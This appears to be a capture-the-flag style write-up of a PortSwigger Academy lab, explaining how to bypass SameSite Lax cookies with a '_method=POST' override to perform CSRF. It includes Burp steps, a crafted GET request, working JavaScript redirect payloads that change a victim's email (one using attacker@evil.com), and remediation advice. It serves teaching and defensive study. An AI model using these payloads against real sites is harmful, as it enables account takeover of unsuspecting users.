


# CSRF Vulnerability Exploitation Report

## Lab: SameSite Lax Bypass via Method Override

### Objective
Perform a CSRF attack that changes the victim's email address by bypassing SameSite Lax cookie restrictions using a method override technique.

### Credentials
| Username | Password |
|----------|----------|
| wiener | peter |

### Study the Change Email Function

In Burp's browser, log in to your own account and change your email address.

In Burp, go to the Proxy > HTTP history tab.

Study the `POST /my-account/change-email` request and notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSRF if you can bypass the SameSite cookie restrictions.

Look at the response to your `POST /login` request. Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default Lax restriction level.

Recognize that this means the session cookie will be sent in cross-site GET requests, as long as they involve a top-level navigation.

### Bypass the SameSite Restrictions

Send the `POST /my-account/change-email` request to Burp Repeater.

In Burp Repeater, right-click on the request and select "Change request method". Burp automatically generates an equivalent GET request.

Send the request. Observe that the endpoint only allows POST requests.

Try overriding the method by adding the `_method` parameter to the query string:

```
GET /my-account/change-email?email=foo%40web-security-academy.net&_method=POST HTTP/1.1
```

Send the request. Observe that this seems to have been accepted by the server.

In the browser, go to your account page and confirm that your email address has changed.

### Craft Exploit

In the browser, go to the exploit server.

In the Body section, create an HTML/JavaScript payload that induces the viewer's browser to issue the malicious GET request. Remember that this must cause a top-level navigation in order for the session cookie to be included.

**Exploit Code:**

```html
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

Store and view the exploit yourself. Confirm that this has successfully changed your email address on the target site.

Change the email address in your exploit so that it doesn't match your own.

Deliver the exploit to the victim to solve the lab.

### Complete Exploit Payload

```html
<script>
    document.location = "https://0abc00ef03f2a1a280b2f07d00c300ea.web-security-academy.net/my-account/change-email?email=attacker@evil.com&_method=POST";
</script>
```

### Attack Flow

| Step | Action |
|------|--------|
| 1 | Victim visits exploit server |
| 2 | JavaScript redirects to change email endpoint with `_method=POST` |
| 3 | GET request includes session cookie (SameSite Lax allows top-level navigation) |
| 4 | Server accepts `_method=POST` override |
| 5 | Email address is changed |
| 6 | Lab is solved |

### Root Cause

- SameSite default = Lax (no explicit restriction set)
- Server accepts `_method` parameter for method override
- No CSRF tokens on email change endpoint
- GET request modifies server state

### Remediation

- Set `SameSite=Strict` on session cookies
- Disable HTTP method override for sensitive endpoints
- Add CSRF tokens to all state-changing requests
- Reject GET requests for modifications

### Tools Used
- Burp Suite (Proxy, Repeater, HTTP history)
- Burp Browser
- Exploit Server

### Reference
- PortSwigger Web Security Academy – CSRF (SameSite Lax Bypass)
